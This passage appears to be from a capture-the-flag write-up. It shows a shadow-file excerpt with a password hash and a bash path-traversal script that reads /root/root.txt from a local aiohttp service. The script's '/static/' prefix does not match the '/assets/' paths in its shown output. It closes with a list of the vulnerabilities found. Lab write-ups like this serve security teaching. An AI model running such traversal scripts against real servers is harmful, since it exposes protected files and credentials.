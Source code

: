 ```bash
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::
```

Finally, modified the script to access `/root/root.txt`:
```shell
#!/bin/bash

url="http://localhost:8282"
string="../"
payload="/static/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

The output reveals the root flag:
```shell
❯ ./aiohttp_exploit.sh
[+] Testing with /assets/../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../../root/root.txt
	Status code --> 200
4da3347c8d07120130282--snip--
```

## Vulnerabilities Identified

1. **CIF Parser Code Execution (CVE-2024-23346)**
   - Insecure deserialization in the PyMatGen library
   - CWE-502: Deserialization of Untrusted Data

2. **Credentials in Application Code**
   - Hardcoded database credentials in the application
   - CWE-798: Use of Hard-coded Credentials

3. **Weak Password Storage**
   - MD5 hashing without salting
   - CWE-327: Use of a Broken or Risky Cryptographic Algorithm
